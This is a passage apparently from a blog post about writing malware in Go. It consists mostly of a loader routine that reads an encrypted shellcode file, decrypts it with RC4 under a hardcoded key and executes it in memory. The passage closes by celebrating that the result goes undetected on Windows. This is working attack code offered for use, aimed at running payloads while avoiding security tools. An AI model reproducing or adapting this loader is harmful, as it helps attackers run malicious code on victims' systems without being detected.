 ```go  

	plaintext := make([]byte, len(ciphertext))
	cipher.XORKeyStream(plaintext, ciphertext)

	return plaintext
}

func main() {
	// Load the encrypted shellcode from the file
	filePath := "encrypted_shellcode.bin"
	encryptedShellcode, err := ioutil.ReadFile(filePath)
	if err != nil {
		fmt.Errorf(err.Error())
	}
	fmt.Println("[+] Encrypted shellcode:")
	fmt.Println(string(encryptedShellcode))

	// Decrypt the shellcode using RC4 with a key
	key := []byte("Secret")
	decryptedShellcode := decryptRC4(key, encryptedShellcode)
	fmt.Println("[+] Decrypted shellcode:")
	fmt.Println(string(decryptedShellcode))

	// Execute the decrypted shellcode in memory
	executeShellcode(decryptedShellcode)
}
```  

## Take that Windoz3!  
![](/assets/images/go-malware/go-malware-undetected.png)
